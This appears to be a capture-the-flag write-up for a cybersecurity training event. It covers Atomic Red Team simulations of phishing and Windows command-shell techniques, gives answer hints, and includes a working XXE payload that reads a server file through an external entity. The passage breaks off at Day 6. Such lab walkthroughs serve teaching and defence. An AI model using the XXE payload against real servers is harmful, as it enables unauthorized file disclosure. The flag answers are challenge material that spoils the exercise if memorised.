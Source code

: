 ```powershell
Invoke-AtomicTest T1566.001 -TestNumbers 1
cat C:\Users\Administrator\AppData\Local\Temp\PhishingAttachment.txt
Invoke-AtomicTest T1566.001-1 -cleanup
```

**What ATT&CK technique ID would be our point of interest?**

* https://attack.mitre.org/techniques/T1059/

**What ATT&CK subtechnique ID focuses on the Windows Command Shell?**

* https://attack.mitre.org/techniques/T1059/003/

**What is the name of the Atomic Test to be simulated?**

Search for a test named "ware":
```powershell
Invoke-AtomicTest T1059.003 -ShowDetailsBrief
```

**What is the name of the file used in the test?**

Search for a txt file:
```powershell
 Invoke-AtomicTest T1059.003 -ShowDetails -TestNumbers 4
```

**What is the flag found from this Atomic Test?**

Execute the test which should print a PDF containing the flag:
```powershell
Invoke-AtomicTest T1059.003 -TestNumbers 4
```

## Day 5: XXE - SOC-mas XX-what-ee?

**What is the flag discovered after navigating through the wishes?**

POST /wishlist.php using Burp Repeater:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_15.txt"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

**What is the flag seen on the possible proof of sabotage?**

Go to http://MACHINE_IP/CHANGELOG

## Day 6: Sandboxes - If I can't find a nice malware to use, I'm not going

**What is the flag displayed in the popup window after the EDR detects the malware?**
